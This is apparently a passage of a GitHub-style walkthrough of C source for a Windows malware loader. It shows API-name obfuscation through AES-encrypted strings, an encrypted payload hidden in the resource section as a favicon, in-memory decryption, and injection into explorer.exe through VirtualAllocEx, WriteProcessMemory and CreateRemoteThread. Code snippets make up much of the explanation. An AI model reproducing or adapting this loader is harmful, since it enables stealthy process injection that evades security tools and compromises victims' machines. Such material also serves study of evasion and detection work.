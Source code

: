 ```c
HANDLE (WINAPI * pCreateRemoteThread)(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

First, the encrypted `sCreateRemoteThread` gets decrypted by calling the function `AESDecrypt` inside `AESDecryptString`.

```c
AESDecrypt((char *) sCreateRemoteThread, sizeof(sCreateRemoteThread), key, sizeof(key));
```

Then, the `pGetModuleHandleA`, which points at `GetModuleHandleA`, returns a handle to the decrypted DLL `kernel32.dll`. The handle and the decrypted now string `CreateRemoteThread` are passed to the pointer (`pGetProcAddress`) of the `GetProcAddress` function, which returns a memory address. This memory address is pointed by `pCreateRemoteThread`.

```c
pCreateRemoteThread = pGetProcAddress(pGetModuleHandleA(skernel32), sCreateRemoteThread);
``` 

The above process is the same for the rest of the functions. That's how the obfuscation of the function calls is accomplished.

After that the payload needs to be extracted from the resources section using `pFindResourceA`, `pLoadResource`, `pLockResource` and `pSizeofResource` and is stored in the `payload` variable.

```c
res = pFindResourceA(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
resHandle = pLoadResource(NULL, res);
payload = (char *) pLockResource(resHandle);
payload_len = pSizeofResource(NULL, res);
```

The memory for the payload is allocated by `pVirtualAlloc`, the payload is copied to the allocated buffer by `pRtlMoveMemory` and the payload is decrypted by `AESDecrypt`.

```c
exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
pRtlMoveMemory(exec_mem, payload, payload_len);
AESDecrypt((char *) exec_mem, payload_len, key, sizeof(key));
``` 

The process injection starts by finding (`FindTarget`) a target process ID (for `explorer.exe`) by creating creating a snapshot of the current processes (`pCreateToolhelp32Snapshot`) and searching for the correct one.

```c
pid = FindTarget(sexplorer);
```

The opening of the target process (`pOpenProcess`) happens next and the actual injection is accomplished by `pVirtualAllocEx`, `pWriteProcessMemory` and `pCreateRemoteThread` inside `Inject` function.
